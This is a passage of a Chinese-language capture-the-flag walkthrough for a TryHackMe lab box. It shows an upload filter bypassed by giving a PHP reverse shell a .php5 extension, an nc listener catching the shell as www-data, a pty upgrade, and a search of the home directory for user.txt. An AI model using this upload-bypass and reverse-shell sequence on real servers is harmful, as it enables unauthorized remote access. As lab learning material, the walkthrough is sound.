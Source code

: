### POC 

看來上面的 POC 應該可行  
實作看看  
一樣使用此 php 調整 IP 上傳  
`/usr/share/webshells/php/php-reverse-shell.php`  

但發現怎麼傳都沒看到檔案咧？！  
後來注意到 POC 有寫要用 `.php5` 的副檔名才行  
```!=
filename = input("Enter FileName (Example:.htaccess,shell.php5,index.html) : ")
file = {'upload[]': open(filename, 'rb')}
```
果真上傳成功  
![image](https://hackmd.io/_uploads/ByoEkHPClx.png)  

點擊檔名就能訪問檔案  
路徑也跟上面的 POC 一樣  
```!=
http://10.10.96.37/content/attachment/php-reverse-shell.php5
```
> 對照剛剛的 POC
> ```!=
> if uploadfile.status_code == 200:
>         print("[+] File Uploaded...")
>         print("[+] URL : http://" + host + "/attachment/" + filename)
>         pass
> ```

所以監聽 1234 後 再度訪問檔案   
成功反射 shell  
```!=
└─$ nc -nvlp 1234             
listening on [any] 1234 ...
connect to [10.4.11.38] from (UNKNOWN) [10.10.96.37] 53544
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 07:42:48 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
取得 user.txt
```!=
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ ls
ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media       proc  sbin  sys  var
cdrom  home  lib             mnt         root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd home 
cd home
www-data@THM-Chal:/home$ ls
ls
itguy
www-data@THM-Chal:/home$ cd itguy
cd itguy
www-data@THM-Chal:/home/itguy$ ls
ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
```